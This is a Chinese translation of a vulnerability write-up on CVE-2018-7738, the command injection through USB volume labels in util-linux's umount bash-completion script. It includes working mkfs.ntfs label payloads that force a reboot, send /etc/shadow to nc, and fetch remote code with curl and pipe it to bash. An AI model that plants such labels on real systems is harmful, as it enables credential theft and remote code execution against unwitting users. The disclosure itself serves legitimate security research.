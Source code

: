 > 原文链接: https://www.anquanke.com//post/id/160116 


# CVE-2018-7738：利用bash-completion实现恶意代码执行


                                阅读量   
                                **165713**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                    



##### 译文声明

本文是翻译文章，文章原作者Grimm，文章来源：blog.grimm-co.com
                                <br>原文地址：[https://blog.grimm-co.com/post/malicious-command-execution-via-bash-completion-cve-2018-7738/](https://blog.grimm-co.com/post/malicious-command-execution-via-bash-completion-cve-2018-7738/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t01420d9d5c12926fb1.png)](https://p3.ssl.qhimg.com/t01420d9d5c12926fb1.png)

本文介绍了作者发现bash-completion中存在漏洞的过程及漏洞的简要分析。

[![](https://p3.ssl.qhimg.com/t01fe2932818fb834c5.png)](https://p3.ssl.qhimg.com/t01fe2932818fb834c5.png)

备注：我在发现此漏洞后在Tenable上看到它已经有了CVE编号，详情写在了文末的时间线中。

这个漏洞的发现过程其实充满了机缘巧合：我当时正在给我的U盘命名，但是当我偶然给它命名为’ID’后并想卸载它时，发生了奇怪的事情：

```
$ umount /dev/s&lt;tab&gt;ID: command not found
```

WTF？这肯定有问题，当我又试了一次之后，我发现这里面有点东西：当我尝试进行补全，获取可用设备（比如/dev/sdb1什么的）列表时命令被执行了！

```
$ sed -n 44,45p /usr/share/bash-completion/completions/umount
    DEVS_MPOINTS="$(mount | awk '`{`print $1, $3`}`')"
    COMPREPLY=( $(compgen -W "$DEVS_MPOINTS" -- $cur) )
```

在深挖一番之后我发现卸载的bash-completion脚本44行的位置可使得带有“或$()的驱动器名被当作命令执行。

虽然这种操作很骚，但是并非没有出现过。在今年上半年就有过一个KDE的bug与这种情况类似，可实现当USB驱动器插入时直接执行命令，这可比现在这个问题严重多了。

漏洞影响版本：Ubuntu 18.04

完整的分析还没出来，不过用util-linux 2.31 bash-completion挂载卸载脚本的系统都会有这个漏洞。

漏洞发现环境：Ubuntu 18.04系统上对USB卷名和类型搞事情时候发现的。



## 实际测试

我在发现这个漏洞的时候使用的是创建FAT32分区的工具，它默认只支持大写的DOS标准，所以当时用的是无效命令，不过用mkfs.fat的话就不需要考虑这个问题。

```
$ sudo mkfs.fat -I -n '`id`' /dev/sdb1
```

但是这样子是看不到任何结果的，我一开始懵逼了一下，后来明白过来命令其实已经执行了，但它执行成功后的输出被丢弃了。

FAT32的卷名最大长度不能超过11个字符，因此想搞大新闻是不能用它的，所以我们需要和NTFS说说心里话～同时，挂载卸载分区时用户大概率可以拿到sudo凭证缓存，所以配合着就可以玩得更大了。

```
$ sudo mkfs.ntfs -f -L '`IFS=,;a=sudo,reboot;\$a`' /dev/sdb1
```

接下来就可以用同事的电脑测试一下了，嘿嘿嘿，不出意外它造成的后果能让你笑一下午（如果你没被同事打死的话）。但是这有点太low了，我们应该玩点高端的。所以我又做了下面的测试：（[1337与31337与黑客间不可说的秘密](https://en.wikipedia.org/wiki/Leet)）

```
$ sudo mkfs.ntfs -f -L '`IFS=,;sudo,cat,/etc/shadow,|,nc,127.0.0.1,31337;\$a`' /dev/sdb1
```

在目标机器上执行下面这段代码：

```
$ nc -l 127.0.0.1 31337
```

然后插入U盘，准备执行卸载（unmount）命令并进行补全，如果有sudo的凭证缓存的话，就可以悄咪咪地接收到/etc/passwd文件内容了。

来，继续嗨：

```
$ sudo mkfs.ntfs -f -L
'`IFS=,;a=curl,-Ls,notmalware.sh;\$a|bash`' /dev/sdb1
```



## 漏洞浅探

Ubuntu Bionic git repo上的umount bash-completion脚本版本和upstream github repo上是一样的，但是我系统上的脚本版本号却不是这个。找了半天才在Ubuntu 18.04 bash-completion包的日志文件中发现，他们已经不用原先的bash-completion里的脚本而改用util-linux包中的脚本了。

瞟一眼Ubuntu 18.04里的util-linux包列表，可以发现漏洞产生于util-linux 2.31。具体的commit是在13年提交的，并且在18年3月的2.32版本中被修复了。

并且有意思的是在bug报告中也并未将这个漏洞视为安全问题，而是标注为当卷名含空格时会崩溃。这意味着发现这个漏洞时只是因为这个漏洞导致的其他小问题，而核心原因并未被发现。这也解释了为啥修复这个整整花了四个多月，如果被当作安全问题处理的话流程会快得多。

虽然上面说了那么多实例和危害，但这个漏洞实际上对Ubuntu影响不大，虽然它在5年前就已经在util-linux 2.24-rc1中出现，但因为Ubuntu之前用的不是这个脚本，所以一点影响都没，直到Ubuntu改用这个版本的脚本（Ubuntu 18.04）才会存在这个漏洞。并且即将发布的Ubuntu 18.10会使用新版本的util-linux包（2.32），也不会受到这个漏洞的影响。我在Ubuntu 16.04上试了试，确实不会有任何问题。

最后，总结一下，这个漏洞存在于使用util-linux 2.24-2.31版本的挂载卸载bash-completion脚本的系统中。并且目前确定影响Ubuntu 18.04。并且，如果Ubuntu 18.04未来不应用util-linux 2.32的话，恐怕这个LTS版本将会长期受到这个漏洞影响。



## 其他B漏u洞g

我这次发现的漏洞存在于挂载卸载bash-completion中，但是我感觉其他脚本中也会存在这个问题。因此我便对俩比较重要的工具进行了测试。

### <a name="header-n59"></a>hcitool：

进行了简单的测试后，发现hcitool以及其他hci*系工具不存在此类漏洞。

```
$ head -n9 /usr/share/bash-completion/completions/hcitool 
# bash completion for bluez utils                          -*- shell-script -*-

_bluetooth_addresses()
`{`
    if [[ -n $`{`COMP_BLUETOOTH_SCAN:-`}` ]]; then
        COMPREPLY+=( $( compgen -W "$( hcitool scan | \
        awk '/^\t/`{`print $1`}`' )" -- "$cur" ) )
    fi
`}`
```

### <a name="header-n63"></a>iwconfig：

测试后发现它也不存在此类漏洞，烦人。

```
$ sed -n 14,22p /usr/share/bash-completion/completions/iwconfig 
        essid)
            COMPREPLY=( $( compgen -W 'on off any' -- "$cur" ) )
            if [[ -n $`{`COMP_IWLIST_SCAN:-`}` ]]; then
                COMPREPLY+=( $( compgen -W \
                    "$( iwlist $`{`words[1]`}` scan | \
                    awk -F'\"' '/ESSID/ `{`print $2`}`' )" -- "$cur" ) )
            fi
            return
            ;;
```



## 启示

现代操作系统的每个零件时时刻刻都在更新，脚本源的更新也会造成许许多多的安全隐患。这些漏洞可能会潜藏好多年，即便修复后，依赖它的项目也需要几个月的时间去应用补丁，因此一定要时刻提醒自己注意系统的更新与安全。

最后，保持好奇心，专注搞事情。



## 时间线

2013.4.13 漏洞引入util-linux

2016.3.31 漏洞引入Ubuntu

2017.11.16 漏洞获得CVE编号CVE-2018-7738

2018.3.21 util-linux 2.32发布，修复漏洞

2018.8.22 我发现了漏洞

2018.9.11 我完成了漏洞分析

2018.9.14 我写了这篇博客 – w –
